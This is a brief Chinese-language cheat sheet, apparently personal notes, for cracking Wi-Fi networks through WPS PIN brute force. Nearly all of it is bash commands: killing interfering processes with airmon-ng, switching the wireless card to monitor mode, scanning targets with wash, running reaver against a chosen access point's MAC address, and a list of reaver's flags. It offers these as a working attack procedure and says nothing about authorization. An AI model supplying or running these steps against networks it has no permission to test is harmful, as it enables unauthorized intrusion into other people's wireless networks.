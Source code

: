 ### Wi-Fi破解(PIN方法)

- 检查可能影响破解的进程并关闭

```bash
sudo airmon-ng check # 检查可能会影响破解的进程
sudo airmon-ng check kill # 自动杀死进程
```

- 将无线网卡设置为monitor模式(必须)

```bash
sudo ifconfig <无线网卡名> down
sudo iwconfig <无线网卡名> mode monitor
sudo ifconfig <无线网卡名> up
```

- 检查周围wifi的MAC地址

```bash
sudo wash -i <无线网卡名>
```

- 开始破解

```bash
sudo reaver -i <无线网卡名> -b <目标MAC> -vv
```

- reaver参数解析

```bash
-i  # 指定网卡
-b  # 目标wifi的MAC地址
-v  # 显示不重要信息, 再加个v显示更多
-d  # 发包间延时
-t  # 等待对方回应延时
```

- 关闭monitor模式

```bash
sudo ifconfig <无线网卡名> down
sudo iwconfig <无线网卡名> mode <模式>
sudo ifconfig <无线网卡名> up
```

